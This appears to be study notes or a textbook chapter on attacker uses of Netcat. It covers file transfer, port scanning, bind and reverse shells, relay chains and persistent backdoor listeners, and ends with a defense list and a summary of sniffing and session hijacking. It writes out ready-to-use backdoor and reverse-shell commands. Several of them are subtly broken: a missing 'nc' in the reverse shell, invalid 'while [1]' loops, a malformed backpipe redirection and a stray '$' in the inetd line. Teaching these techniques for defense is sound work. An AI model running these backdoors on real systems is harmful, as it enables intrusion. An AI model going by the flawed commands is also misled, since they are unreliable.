One of the simplest uses for Netcat is to transfer a file between two machines. Many networks block incoming or outgoing FTP, so an attacker will usually not be able to transfer files that way. 

The attacker might be able to install Netcat using a buffer overflow or related attack as we discussed in chapter 7. 

An attacker can transfer a file using Netcat by either pushing it from client to listener or pulling it from listener back to client. 
- When pushing a file, an attacker sets up a Netcat listener on the destination system, listening on a specific port and dumping its output to a file. On the source system, the attacker then uses Netcat in client mode to make a connection to the destination machine on the given port, directing the file to be transferred as input. The commands to transfer a file using TCP port 1234 are as follows

Destination Machine Receiving File: ```$ nc -l -p 1234 > [file]```
Source Machine Sending File: ```$ nc [remote_machine] 1234 < [file]```


- Alternatively, an attacker can pull a file from a machine by setting up Netcat in listener mode on the machine, redirecting the file to Netcat's input. When the Netcat client on the destination machine connects, the file will be dumped from source to destination, as shown below. Pulling a file can be implemented using the following commands in Netcat:

Source machine, offering file for transfer: ```$ nc -l -p 1234 < [file]```
Destination machine, pulling file: ```$ nc [remote_machine] 1234 > [file]```


## Netcat For Port Scanning
Netcat, supports only standard, "vanilla" port scans, which complete the TCP three-way handshake with every port checked.
- Although not as full-featured or stealthy in doing port scans as Nmap, Netcat is still a very effective basic port-scanning tool. To conduct a TCP port scan using Netcat, an attacker would type the following:

```$ echo QUIT | nc -v -w3 [target] [start port]-[end port]```



This command will connect to every port in the range between startport and endport, and enter the characters QUIT at each port. 
- We limit the wait for a response from the target to a maximum of three seconds.
- If no traffic is received within three seconds, Netcat will give up
- This has to happen because Netcat will get hung up on a single port that leaves its connection open
- The verbose option (-v) causes Netcat to display a list of each successfully made connection (which indicates an open port) on the attacker's screen. 

## Netcat For Making Connections To Open Ports
When an attacker discovers ports on a system through port scanning, the next step is to connect to each open port and try to determine and possibly undermine the service listening at the port. 
- An attacker's port scan might indicate a dozen or more open ports on the target 
- An attacker can quickly and easily use Netcat in client mode to connect to these ports and start entering raw data to see what listening service sends back.
- The listening service might indicate a particular application and version number, or the attacker might even be able to crash the target by entering large amount of junk on the open port.

Sending data to an open port on a target system is trivial, and can be accomplished using the following command:
```
$ nc -u [target_machine] [portnum]
```


Reasons for using Netcat compared to other applications:
- The output from Netcat can be more easily redirected to a file. Using the simple redirection character > in UNIX and Windows causes any output from Netcat to be dumped to a file
- It is far easier to force Netcat to drop a connection than it is to force a telnet client to let go of a connection. 
- Telnet inserts some control data and environment variables across the connection to the open port when it tries to do a terminal negotiation with the other side, thinking it is a telnet server. This pollutes the communication stream the attacker is using.
- Telent puts its own error messages in the standard output stream. 
- Telnet cannot make UDP connections

## Netcat For Vulnerability Scanning 
In addition to scanning for open ports, Netcat can be used as a limited vulnerability-scanning tool. An attacker can write various scripts that implement vulnerability checks, and interact with the target systems using Netcat to transmit the data across the network. 
- Essentially, Netcat functions as a scanning engine. 

It comes packed with these tools:
- RPCs, with known vulnerabilities
- Network File System exports that allow anyone on the network to look at the target's local file system
- Weak trust relationships
- Bad passwords (such as "root", "administrator", etc)
- Buggy FTP servers

This handful of checks is very limited compared to what a full-blown Nessus scan can accomplish. Still, Netcat is very useful for quickly writing up a new vulnerability check in shell scripts and testing for holes. 

## Using Netcat To Create a Passive Backdoor Command Shell
One of the simplest and most powerful uses of Netcat is to provide command-shell access on a specifc port. When attackers connect to this listening port, they can simply enter commands to be executed on the target machine, giving them a fully interactive remote shell. 
- To create a backdoor shell on a machine, the attacker uses the ```-e``` option of Netcat, which tells Netcat to invoke a given program, in this case a command shell, when a connection is made. To accomplish this, the attacker first gains access to the victim machine, installs Netcat, and launches it using the following command:

Victim's Machine: ```nc -l -p [port] -e /bin/sh```


An attacker can use Netcat in client mode to connect with this backdoor listener by typing the following command on the attacking machine:

Attacker's Machine: ```$ nc [victim_machine] [port]```


In this way, Netcat can be used to create a passive, waiting listener, which will send the attacker a command shell when the attacker makes a connection using Netcat in client mode. If there is a router with packet filters or a firewall in the way, the attacker will not be able to reach the listener. 

## Using Netcat to Actively Push a Backdoor Command Shell
This technique gets attackers around the problems created when a filter blocks external access. 

Instead of passively listening for an inbound connection, Netcat can actively push a command shell from machine-to-machine.

The attacker begins by creating a passive listener on their machine, waiting for a command shell to be pushed to it from the victim system using the following command:

Attacker's Machine: ```$ nc -l -p [port]```


Then the attacker interacts with the victim machine, possibly using a buffer overflow, to force it to use Netcat in client mode to run a command shell and push it out to the attacker's machine. The following command executed on the victim's machine accomplishes this. 

Victim's Machine: ```$ [attackers_machines] [port] -e /bin/sh```


This technique, which pushes the shell access across an outbound connection, is sometimes called a **reverse shell** or shell shoveling. 
- The major benefit is being able to avoid firewalls.

It's an incoming shell implemented on an outgoing connection as illustrated below. As long as outgoing connections are allowed from the victim machine to the outside world, this technique will work


## Relaying Traffic with Netcat
Although a backdoor command shell (either passive or reverse) is the most common use of Netcat by the bad guys, one of its most pernicious uses invovles setting up a relay to obscure the attacker's location on the network. 
- An attacker can configure Netcat clients and listeners to bounce an attack across a bunch of machines controlled by the attacker. The attacker's connection moves from relay to relay. 

Consider the realy example shown below. The attacker controls the machines labeled Relay A and Relay B (these can be systems anywhere on the Internet conquered by the attacker exploiting security vulnerabilities). 
- On each of these machines, the attacker sets up a Netcat listener
- The listener then directs its input to the client on the same system
- This client in turn forwards the traffic out across the network to the next system in the chain. 


There are three popular techniques for establishing a Netcat relay: modifying ```inetd```  on UNIX/Linux, setting up a backpipe on Unix/Linux, and creating relay bat file on Windows.


As discussed in Chapter 3, ```inetd``` is a UNIX daemon that listens for connections for services indicated in the ```/etc/inetd.conf``` file. 
- To create a relay using ```inetd``` and Netcat, the attacker can add a line to ```/etc/inetd.conf``` that cuases ```inetd``` to listen on a specific port and launch Netcat in client mode to forward traffic. 
- The format of the ```/etc/inetd.conf``` file is described in more detail in Chapter 3. 
- The following line in ```/etc/inetd.conf``` will make ```inetd``` listen on TCP port 11111, spawning off a Netcat client, which will forward all traffic to TCP port 54321 on machine named ```next_hop:``` 

```
$ 11111 stream tcp nowait nobody /usr/sbin/tcpd /usr/bin/nc [next_hop] 54321
```


Most good system administrators will quickly notice a change in the ```/etc/inetd.conf``` file by using a file system integrity checker like Tripwire to look for changes in sensitive configuration file (like ```/etc/inetd.conf```) on at least a daily basis. Tripware can be used to implement a warning whenever sensitive files are altered. 

Another method for setting up a relay that is more difficult to detect than modifiying ```/etc/inetd.conf``` uses the ```mknod``` command to create a special file that will be used to transfer data back and forth between a Netcat client and server. 
- ```mknod``` can be used to create special files with First-In/First-Out (FIFO) properties. The first data written to the file will be the first data that will be pulled out of the file 

An attacker can set up a Netcat listener on a given port, such as TCP port 11111. The output of the server is piped to a Netcat client that forwards data to the next hop on a given port, like 54321. 

Additionally, any data received by the Netcat client back from the next hop is directed into the FIFO file (using the redirection tool >). This FIFO file is likewise redirected back into the Netcat listener, which will transmit the data back to the previous hop. This technique all comes together in the following commands:
```
$ mknod backpipe p
$ nc -l -p 11111 @<backpipe | nc [next_hop] 54321 1>backpipe
```


This command sets up a Netcat listener on TCP port 11111, forwarding data to ```next_hop``` machine on TCP port 54321. The backpipe file is used to direct response traffic back from the destination to the source, as shown in the figure below. Trace through the connection from the attacker all the way through the relay to the victim listener and back with your finger to get a feel for how the data moves across the network through the relay. 


A third way to create a Netcat relay involves using a batch file, a technique that is well-suited to Windows machines and can be easily adapted to Linux and UNIX systems by just substituting the proper shell (/bin/sh in place of cmd.exe). The batch file approach invovles creating a file that contains a single command to start a Netcat client. The batch file is, in effect, a really simple script that contains the following text:
```
C:\nc.exe [next_hop] 54321
```

The attacker must include the full path to the ```nc.exe``` we are making the assumption it is at the top of the C directory. 

An attacker can choose any name for this script file, but, for clarity's sake, let's just call it ```ncrelay.bat``` Then, the attacker creates the relay by running this command:
```
C:\> nc -l -p 11111 -e ncrelay.bat
```

When someone connects to TCP port 11111 on the relay machine, this command will execute the ```ncrealy.bat``` file, attaching its input and output to the netcat listener. 
- All data received by the Netcat listener on TCP 11111 is sent to the Netcat client invoked by the ```ncrelay.bat``` file, which transfers it to the destination machine on the other side. 

## Persistent Netcat Listeners and Netcat HoneyPots
It's import to note that all of the Netcat listeners we've discussed so far, including the file transfer, backdoor command shell, and relay setups are non-persistant listeners. That is once an attacker connects to the listener and drops the connection, the Netcat listener goes away, closing the port. 
- To address this, Netcat has the ```-L``` flag that tells it to "listen harder"

On Windows, an attacker can invoke a command-shell listener that will continue listening after a client drops the connection using this syntax:
```
C:\> nc -L -p [port] -e cmd.exe
```


The attacker can then connect to this shell using a Netcat client as before. However, when the attacker drops the connection from the client, typically by pressing CTRL+C, the listener starts listening again, making it a persistant listener. 
- The attacker can reconnect at any time, therefore making a backdoor.

An attacker can make a Netcat listener persistent on Unix and Linux by using a while loop, invoking the following command:
```
$ while [1]; do echo "Started": nc -l -p [port] -e /bin/sh; done
```


When executed, this command will print out "Started", listen on a given TCP port, and then invoke a command shell (/bin/sh) when someone connects
- The only way the connection disappears is if the user who started it logs out

To eliminate the problem, and to make a totally persistent listener that will let the attacker log out, the bad guy could dump the while loop syntax we just described into a file, called ```listener.sh``` for example. Then change the permissions to readable and executable, so that it can run as a script using this command:
```
$ chmod 555 listener.sh
```

Then, the attacker can invoke this loop in the background by using the ```nohup``` command, as follows:
```
$ nohup ./listener.sh &
```

On UNIX, and Linux, the ```nohup``` command makes a process keep running even if the user who invoked it logs out. 

Using what we know, the good guys can use Netcat to create a little honeypot, a tool used to capture information from the bad guys. Consider this while loop, which can be dumped into a file called ```honeypot.sh```

```
$ while [1]; do echo "Started"; nc -l -p [port] >> capture.txt; done
```

This loop invokes a Netcat listener on the given port number. When someone connects and sends data, the listener will append all received data in a file called ```capture.txt```. Then, when the connection is dropped, the listener will start again. 
- This is called a honeypot, and it is used to capture the bad guys' actions for analysis by investigators. 

To kill this command the investigator would need to use the kill command to send the -9 signal (forcing it to shut down) to the process running Netcat, as in:
```
$ kill -9 [pid_of_nc]
```

## Netcat Defenses
Because Netcat can be used for so many different types of attacks, there is no single way to defend against it. To adequately secure your systems against the techniques we've discussed, you need to implement a variety of defenses, including these:
- Preventing Netcat file transfers
- Securing Against Port Scanning: configure systems with a minimal number of listening ports
- Blocking Arbitrary Connections to a Port: Close all unused ports on your machien
- Protecting against Vulnerability Scanning: Have an active program to apply system patches, keeping your machine up to date.
- Stopping Backdoors: Know the processes running on your system
- Preventing Relay Attacks: Use layered security in your network architecture
- Stop Perisstent listeners: In additon to knowing which processes are running on your systems, make sure you conduct periodic port scans to look for strange, unexpected listening ports.
 
# Summary

Sniffing is a common attack technique that gathers information from the LAN, which could include user IDs and passwords transmitted in clear text or sensitive file or e-mail sent to or from a local system. There are an enromous number of sniffing tools available today. Passive sniffers gather traffic from the LAN without trying to manipulate the flow of data on the network. Snort, Sniffit, and Ethereal are three of the best passive sniffers available.

Active sniffing invovles injecting traffic into the network to redirect packets to the sniffing machine. Active sniffing techniques allow an attacker to sniff in a switched environment, by overwhelming switches with a large number of MAC addresses, through ARP spoofing, or via port stealing techniques. Additionally, by injecting spurious DNS responses into a network, an attacker can redirect the flow of traffic from its intended source to an attacker's system. Finally, using active sniffing techniques, an attacker can set up a monkey-in-the-middle attack to read traffic from SSL and SSH encrypted sessions. Dsniff and Ettercap are two of the most powerful active sniffing tools, supporting all of these capabilities. 

To defend against sniffing attacks, you should use secure protocols that include strong authentication and encryption. If your browser or SSH client warns you that the certificate or key is not valid or has changed, you should investigate. Also, get rid of hubs or sensitive network switches, which support stronger security. Finally, for networks handling highly sensitive information, activate port-level security on your switches to lock down MAC addresses to particular physical ports on the switch. 

IP address spoofing allows attackers to send traffic that appears to come from a machine with another IP address. This type of attack is useful in creating decoys, bypassing filtering, and gaining acess to systems that use IP addresses for authentication.

Session hijacking techniques allow an attacker to grab an active session such as tleent or FTP, from a legitimate user. The attacker steals the sesssion, and can enter commands and view the results. Session hijacking techniques can be employed across the network or at an individual host. Network-based session hijacking techniques can result in an ACK storm as systems try to resynchronize their connection. Ettercap and Hunt use ARP cache poisoning to avoid ACK storms. To defend against session hijacking techniques, you should utilize encryption tools, such as SSH with protocol version 2 or VPNs.

Netcat is a general-purpose tool that moves data across a netwokr. It can be used in a variety of attack scenarios, limited only by the attacker's creativity and knowledge of Netcat. Netcat can be used to transfer files or scan for open ports. It makes connections to open ports and conducts rudimentary vulnerability scans. Two of Netcat's most powerful abilities are to create backdoors and establish relays. 